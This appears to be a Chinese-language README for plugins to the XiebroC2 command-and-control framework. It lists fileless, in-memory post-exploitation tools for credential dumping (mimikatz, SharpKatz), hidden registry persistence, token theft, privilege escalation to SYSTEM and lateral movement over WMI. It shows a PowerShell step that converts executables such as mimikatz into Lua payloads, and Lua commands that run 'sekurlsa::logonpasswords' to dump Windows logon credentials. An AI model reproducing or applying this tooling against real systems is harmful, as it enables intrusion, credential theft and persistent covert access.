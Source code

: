 





## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令

![image-20240818163749325](Image/image-20240818163749325.png)



## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |





XiebroC2的插件做到极度的简洁化，几乎使用一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```



参数解释

```lua
-i:            选择输入的文件
-o:            输出的文件
-Command:      命令的名称
-LoadModule:   加载模式
-Description:  描述
-Usage:        使用方法
```





```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```



```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```



这里的LoadModule(加载模式)有四种

```lua
inline-execute                                     --内联加载C/C++/go/rust的exe文件
inline-execute-bin                                 --内联加载C/C++/go/rust的bin文件
inline-assembly	                                   --内联加载.net文件
execute-assembly                                   --Fork&&Run模式(创建子进程)进行内存加载.net文件
```

AddCommand_W和AddCommand_A的区别在于：AddCommand_A打包了exe的使用参数，例如你可以直接将想直接使用logonpassword 

```lua
AddCommand_A("logonpasswords", mimikatz,"privilege::debug sekurlsa::logonpasswords exit","inline-execute","Get password credentials on windows", "logonpasswords" );
```

